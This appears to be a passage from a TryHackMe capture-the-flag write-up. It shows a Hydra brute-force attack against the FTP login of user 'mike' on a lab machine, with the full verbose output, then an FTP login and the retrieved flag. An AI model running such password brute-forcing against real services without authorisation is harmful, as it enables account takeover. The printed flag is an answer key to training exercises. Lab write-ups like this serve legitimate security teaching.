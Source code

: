 #### Answer
What is the password for the user "mike"?
```bash
$ hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt.gz -vV 10.10.13.98 ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-07 00:25:31
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ftp://10.10.13.98:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.13.98 - login "mike" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.13.98 - login "mike" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.13.98 - login "mike" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.13.98 - login "mike" - pass "password" - 4 of 14344399 [child 3] (0/0)
[21][ftp] host: 10.10.13.98   login: mike   password: password
[STATUS] attack finished for 10.10.13.98 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-07 00:25:38
```
We got result! It's login: `mike` and password: **`password`**.

Bingo! Now, let's connect to the FTP server as this user using `ftp [IP]` and entering the credentials when prompted.
```bash
$ ftp 10.10.13.98                                                              
Connected to 10.10.13.98.
220 Welcome to the administrator FTP service.
Name (10.10.13.98:kali): mike
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

What is ftp.txt?
```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Apr 24  2020 ftp
-rwxrwxrwx    1 0        0              26 Apr 24  2020 ftp.txt
226 Directory send OK.
ftp> get ftp.txt
local: ftp.txt remote: ftp.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ftp.txt (26 bytes).
226 Transfer complete.
26 bytes received in 0.00 secs (40.0483 kB/s)
```

Output from ftp.txt:
```
THM{y0u_g0t_th3_ftp_fl4g}
```
The flag is **THM{y0u_g0t_th3_ftp_fl4g}**.


